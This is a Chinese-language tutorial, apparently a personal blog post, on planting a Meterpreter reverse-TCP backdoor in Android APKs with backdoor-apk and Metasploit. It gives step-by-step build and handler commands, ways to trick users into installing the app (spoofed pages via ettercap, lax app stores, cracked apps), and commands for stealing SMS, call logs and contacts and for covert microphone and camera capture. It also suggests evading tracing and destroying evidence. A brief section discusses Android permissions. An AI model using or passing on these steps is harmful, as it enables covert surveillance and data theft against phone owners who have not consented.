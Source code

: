 [TOC]
# 前期准备
- 如果使用的是kali linux则跳过该步骤
- 如果只是在局域网内玩玩可以用虚拟机执行前两步
- ~~划线部分沙丁鱼退避~~
## msf框架
- 如果硬盘空间富余，推荐安装Kali工具集Katoolin，其中包含msf框架及其相应的环境。安装教程参考[Ubuntu安装Kali工具集：Katoolin](https://cloud.tencent.com/developer/article/1044323 "Ubuntu安装Kali工具集：Katoolin")
- 如果硬盘空间捉急，直接下载msf框架的安装脚本和最小依赖，安装教程参考
  [Centos6.5安装Metasploit记录](http://blog.csdn.net/wyvbboy/article/details/51526640 "Centos6.5安装Metasploit记录")
- 安装完后在终端运行 `msfconsole` 测试 ~~当然最好是调用一下handler exploit来测试监听功能~~

## 反编译环境
- JAVA
- dex2jar
- apktool
- ~~可以直接执行后面的制作步骤，在反编译时提示确实缺失哪些组件直接装就行了简单方便~~

## VPS
- 一般而言，自家或者校园网是没有公网IP的，即外网环境下木马返回的数据传输不到本机。这时需要使用具有公网IP的VPS（如TX云等）来执行监听的操作
- ~~推荐国外没备案不用身份验证的，玩脱了好跑路~~

## backdoor-apk
- backdoor-apk是一个将木马程序的生成与植入过程打包简化的一个脚本
- github: [backdoor-apk](https://github.com/dana-at-cp/backdoor-apk "backdoor-apk")

## APK
- 被植入的文件，各大安卓应用市场~~有售~~下载

# 制作过程
- 使用 `ifconfig` 命令查看本机IP
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/1521003201%281%29.png)
- 切换到backdoor-apk目录，执行

```bash
sudo chmod +x ./backdoor-apk.sh //给脚本赋予权限
./backdoor-apk.sh 目标apk //如./backdoor-apk.sh 2048.apk
```

- 接下来会显示反弹方式的选择，选3 ~~因为其他我没试过~~
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/fangshi1.png)

- 跟着是目标IP的设置，这里输入之前查看的本机IP
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/fangshi2.png)

- 然后是监听端口的设置，非常用端口就行，如8888、6666等随机四位数 ~~当然可以设置80、443、22之类的作死~~
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/1521004201%281%29.png)

- 最后是应用程序安装时申请的权限，选2以获取足够的权限来执行木马功能 ~~然而注入某些毒瘤应用选1都没问题~~
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/1521008403%281%29.png)
- 按下回车开始制作，待程序执行完毕后，生成的APK在 `backdoor-apk/original/dist` 目录下

# 诱导安装
- 使用ettercap+伪造界面来诱导 ~~小白~~ 用户下载
- 上架审核不严格的软件商店
- 植入比较热门的APK
- ~~XX破解版~~

# 监控端的配置
- 在他人下载被感染的APK并打开时，会向目标IP持续发送数据包。需要在监控端配置msf框架并打开相应的端口，接收数据并控制目标手机
- 首先运行 `msfconsole` 启动msf框架，启动完成后终端前缀变为 `msf>`
- 依次执行

```bash
use exploit/multi/handler                      //选定攻击模块
set payload android/meterpreter/reverse_tcp    //选定攻击载荷，该项与制作时选定的载荷必须一致
```

- 使用 `options` 来查看攻击载荷的设置项
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/1521017766%281%29.png)
  在这个载荷中，LHOST与LPORT的值需要设置为制作过程中预置的值 ~~差不多每个载荷都这样~~

- 修改载荷值的操作为 `set 项目名称 项目值`，如

```bash
set LHOST 8.8.8.8
set LPORT 44
```

设置完后再次执行 `options` 来确认载荷是否配置正确

- 配置完后，执行 `exploit -j -z`启动模块 ~~等鱼上钩~~

# 控制
- 当受害者打开被感染的APK时，连接建立，此时msf会提示会话开启
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/1521018514%281%29.png)

- 执行 `sessions -i 1` 切换到第一个会话，此时可以随心所欲 ~~猥琐欲为~~，如：
  - ` sysinfo` 获取系统信息
  - ` dump_sms` 获取短信记录
  - ` dump_calllog` 获取通话记录
  - ` dump_contacts` 获取通讯录
  - ` record_mic` 手机录音
  - ` webcam_snap` 偷拍
  - ~~当然还有人民群众喜闻乐见的~~ ` shell` get shell
  - ~~更多精彩参见 `help`~~

# 思考
## 感染目标
- 木马所实现的功能基于在安装时赋予的权限，即使在root环境下也无法获得root shell，由于沙箱机制，在shell中所能做到的也极为有限（甚至无法访问应用文件夹外的目录）。因此，能否通过升级安装的方式替换系统应用获取到更高的权限？

## 权限管理
- 这是国内热门应用申请的权限 ~~google play版本，非国内毒瘤~~
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/weixin.jpg)
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/gaode.jpg)

- 而这是被植入木马的APK申请的权限

![](http://ozhtfx691.bkt.clouddn.com/sadinyu/muma.jpg)

- *电话、短信、通讯录、摄像头、麦克风*，不否认软件“能力越大，权力越大”，但木马能做到的事情，这些软件在权限这一层面上也可以做到。作为软件的使用者，在无法接触源码的情况下我们无法判定“权力”是否被滥用

- 作为用户我们可以对软件的权限进行限制，但这些只是大的方面
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/qxkg.jpg)
  而单单一个“短信”就可以分为“发送、接收和读取”，在网络方面没有权限控制，查看详情时却发现它在为所欲为
  ![](http://ozhtfx691.bkt.clouddn.com/sadinyu/qx.jpg)
  在禁用应用权限后有可能无事发生，但也有可能被应用“友好地”警告甚至直接闪退，安卓对于权限的控制太宽泛了。或许在上图每个项目后面加个开关能有所改善？~~仅限开发者模式~~

- 存在连接不稳定的情况，监听机为TX云时链接稳定不掉线，而使用BWH时稳定30s掉线且功能受限。推测原因可能是
  - ~~BWH配置不足，512M内存不足以负荷监听模块~~（free命令查看内存剩余100+M）
  - 使用最小安装的方式，缺少相应组件(msf运行未报错)
  - ~~msf与数据库未连接~~（TX云亦未连接）

# 改进
- 使用ssh隧道，用BWH的VPS作为跳板，再传入TX云反追踪。参考
  [SSH隧道简洁介绍以及SSH隧道实际应用](http://blog.csdn.net/fgf00/article/details/51284335 "SSH隧道简洁介绍以及SSH隧道实际应用")
- 编写msf脚本自动化处理每个会话，获取资料后及时断线并隐藏安装应用~~销毁证据~~
- 改写木马生成的脚本，将行为变为发送包含资料的邮件至BWH的VPS


